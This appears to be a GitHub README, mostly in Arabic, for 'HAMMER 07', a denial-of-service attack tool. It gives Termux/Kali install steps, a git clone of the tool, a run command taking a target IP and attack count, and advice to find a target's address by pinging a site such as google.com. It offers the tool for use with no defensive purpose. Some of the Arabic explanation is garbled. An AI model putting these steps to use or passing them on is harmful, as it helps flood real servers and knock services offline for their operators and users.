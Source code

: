 #HAMMER 07
![image](https://www.google.com/url?sa=i&url=https%3A%2F%2Fhelp.mikrotik.com%2Fdocs%2Fpages%2Fviewpage.action%3FpageId%3D28606504&psig=AOvVaw3tP-Y9XnxF4LfVDiFT9SoJ&ust=1680820780492000&source=images&cd=vfe&ved=0CBAQjRxqFwoTCPiY977nk_4CFQAAAAAdAAAAABAR)
 تعد هجمات حرمان (رفض الخدمة) من أكثر الهجمات شيوعًا على الإنترنت ، وتهدف إلى إعاقة خدمة ما عن طريق إرسال مجموعة الطلبات غير الصحيحة أو لخادم الويب الذي يستضيف الخدمة. تؤدي هذه النوبات إلى الفقر الذي يؤدي إلى ارتفاعه.
 
 ### install for termux  & kali linux !
 <code>apt update</code>
  <code> apt upgrade</code>
  <code>apt install python</code>
  <code>apt install git</code>
  <code>apt install dnsutils</code>
  <code>git clone https://github.com/MR-SHANKAR7/hammer07</code>
  ### تشغيل ادات 
  <code>cd hammer07</code>
  <code>python hammer07.py -s [ip Address] -t 135</code>
   -s : عنوان ابي لمزود لخدمة 
   -t : عدد هجمات 
   ### example 
<code> python hammer07.py -s 123.45.67.89 -t 135</code>
### طريقة استخراج عنوان  الايبي :
نستخرج عنوان لايبي لموقع كوكل 
www.google.com
داخل terminal ندخل 
ping www.google.com 



# shanakr skr 07 apps developers 
